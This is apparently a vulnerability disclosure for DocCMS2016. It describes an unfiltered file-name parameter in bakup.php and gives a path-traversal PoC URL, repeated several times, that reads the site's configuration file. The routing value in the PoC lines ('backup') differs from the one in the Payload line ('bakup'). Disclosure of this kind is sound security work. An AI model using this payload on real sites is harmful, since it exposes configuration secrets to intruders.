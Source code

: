# Summary
DocCMS2016 (http://doccms.com/?p=40) has an arbitrary file download vulnerability at `\admini\controller\system\bakup.php`.

# Analyze
You can get the source code of the website here: https://gitee.com/husky/DocCMS/releases/download/2016/DocCms-20160517.rar

In `\admini\controller\system\bakup.php`:
In function `file_down`, No filtering is done on the `$file` variable passed in:
![image](https://github.com/user-attachments/assets/197d26f0-7563-4c73-91d7-db83c0cba074)

In function `download`, There is also no filtering of the `$filename` variable passed in.:
![image](https://github.com/user-attachments/assets/aa168440-5a78-4033-8d21-54f2d5a5e6b0)

According to the routing format defined by the website, we can construct the following PoC:
```
/admini/index.php?m=system&s=backup&a=download&filename=../../config/doc-config-cn.php
```
This will be able to read the website's configuration file.

# Details
Payload:
```
http://127.0.0.1/admini/index.php?m=system&s=bakup&a=download&filename=../../config/doc-config-cn.php
```

(From `https://www.cnblogs.com/xiaozi/p/8723430.html`)
![image](https://github.com/user-attachments/assets/32b09092-1634-4b20-b558-8e02f11604b7)


# PoC
```
/admini/index.php?m=system&s=backup&a=download&filename=../../config/doc-config-cn.php
```
(From `https://www.cnblogs.com/xiaozi/p/8723430.html`)
![image](https://github.com/user-attachments/assets/32b09092-1634-4b20-b558-8e02f11604b7)
